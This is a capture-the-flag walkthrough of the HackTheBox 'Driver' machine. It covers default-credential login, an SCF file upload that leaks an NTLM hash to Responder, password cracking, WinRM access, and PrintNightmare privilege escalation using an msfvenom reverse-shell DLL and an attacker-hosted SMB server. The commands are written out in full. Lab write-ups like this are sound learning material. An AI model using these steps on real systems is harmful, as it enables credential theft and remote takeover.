 ## Enumeration

Open ports: 80 (IIS httpd 10.0), 135 (RPC), 445 (smb), 5985 (winrm)

We can see a web target straight away, along with some RPC/SMB and WinRM. The web service is interesting as we’re prompted for HTTP basic authentication. Pulling up a browser, you see the same prompt “Please enter the password for admin”. Feels like a massive clue to me. I try admin:admin as my authentication. Sure enough this works.


## Web

Navigating to the main page a authentication prompt appears. These prompts are often misconfigured to  
default creds admin:admin.

After login, the only active clickable link on the web application is the Firmware Updates tab. This page has an upload functionality and after playing around for a bit we find that there are not filters and we can upload anything. To exploit this we'll need to know where (directory) files are uploaded to. 

We can start a fuzzer like ffuf to find other hidden web locations.

```bash
ffuf -c -w -H 'Authentication: Basic YWRtaW46YWRtaW4=' /usr/share/wordlists/dirb/big.txt -u http://10.10.11.106/FUZZ -e .php,.zip,.txt,.pdf
```

Okay so SCF files are nasty little things that allow you to perform a really pathetically small amount of Explorer commands. The one you’ll be most familiar with is “Show Desktop”. Yeah, that button is just an SCF file.

You can read more about attacks using SCF files here: https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/

Create a text file called `@test.scf`. The `@` is to put the scf file to the top of the directory so an user can execute this. Then we can use responder to capture a hash if this box is vulnerable to an SCF file attack.
```bash
[Shell]
Command=2
IconFile=\\<attack-ip>\share\icon.ico
[Taskbar]
Command=ToggleDesktop
```
Whilst there is UNC path indicating a share called ‘share’ I have nothing of the sort to offer. No sweet icons, just a serving of Responder.

`responder -wrf -I tun0`

Now in theory someone would have to have browsed to this file to make it work. That is apparently what is going on though as our Responder instance provides us with a hash!

`tony::DRIVER:NTLM`
This is an NTLMv2 hash which we can crack to reveal the password: `liltony`

Now we have a path through WinRM which we found exposed. 

`evil-winrm -u Tony -p liltony -i driver.htb`

If we look to the `fw_up.php` source code we can find where the uploads end up which is in `c:\firmwares`.

Since there is a printer service, we can try printnightmare, a new exploit CVE-2021-1675 to force ourselves in as SYSTEM. There's a PS module for this [here](https://github.com/calebstewart/CVE-2021-1675)

`certutil.exe -urlcache -f http://10.10.16.2:1234/CVE-2021-1675.ps1 nightmare.ps1`

However, we are unauthorized to execute the scipt! 

There’s a Python version of this we can run from our Kali instance [here](https://github.com/cube0x0/CVE-2021-1675)

As a prerequisite we need a malicius dll payload that will send us a remote shell. The Python script will inject this into the Print Spooler.:

`msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST LPORT=4444 -f dll -o test.dll`

The file we end up creating here needs to be hosted somewhere and the easiest approach is a samba server.

`impacket-smbserver share . -smb2support`

Now open a listener
`nc -nvlp 4444`

Wait to get the callback and we're system!